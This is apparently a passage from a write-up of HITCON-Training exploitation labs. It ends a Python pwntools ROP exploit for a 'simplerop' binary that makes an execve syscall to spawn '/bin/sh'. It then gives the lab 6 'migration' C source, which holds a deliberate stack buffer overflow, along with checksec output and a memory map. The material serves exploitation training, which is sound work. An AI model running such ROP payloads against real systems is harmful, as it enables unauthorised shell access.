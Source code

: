 ```python
pl += p32(0)
pl += p32(bss)

pl += p32(popeaxret)
pl += p32(0xb)
pl += p32(int80)

r = process('./simplerop')
r.sendline(pl)
r.sendline('/bin/sh\x00')

r.interactive()
```


## 6. migration
migration.c
```c
#include <stdio.h>

int count = 1337 ;

int main(){
	if(count != 1337)
		_exit(1);
	count++;
	char buf[40];
	setvbuf(stdout,0,2,0);
	puts("Try your best :");
	read(0,buf,64);
	return ;
}
```

checksec
```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
proc map
```
08048000-08049000 r-xp 00000000 08:01 1701150                            /home/junheah/HITCON-Training-master/LAB/lab6/migration
08049000-0804a000 r--p 00000000 08:01 1701150                            /home/junheah/HITCON-Training-master/LAB/lab6/migration
0804a000-0804b000 rw-p 00001000 08:01 1701150                            /home/junheah/HITCON-Training-master/LAB/lab6/migration
f7e03000-f7e04000 rw-p 00000000 00:00 0
f7e04000-f7fb4000 r-xp 00000000 08:01 1051955                            /lib/i386-linux-gnu/libc-2.23.so
f7fb4000-f7fb6000 r--p 001af000 08:01 1051955                            /lib/i386-linux-gnu/libc-2.23.so
f7fb6000-f7fb7000 rw-p 001b1000 08:01 1051955                            /lib/i386-linux-gnu/libc-2.23.so
f7fb7000-f7fba000 rw-p 00000000 00:00 0
f7fd3000-f7fd4000 rw-p 00000000 00:00 0
f7fd4000-f7fd7000 r--p 00000000 00:00 0                                  [vvar]
f7fd7000-f7fd9000 r-xp 00000000 00:00 0                                  [vdso]
f7fd9000-f7ffc000 r-xp 00000000 08:01 1046619                            /lib/i386-linux-gnu/ld-2.23.so
```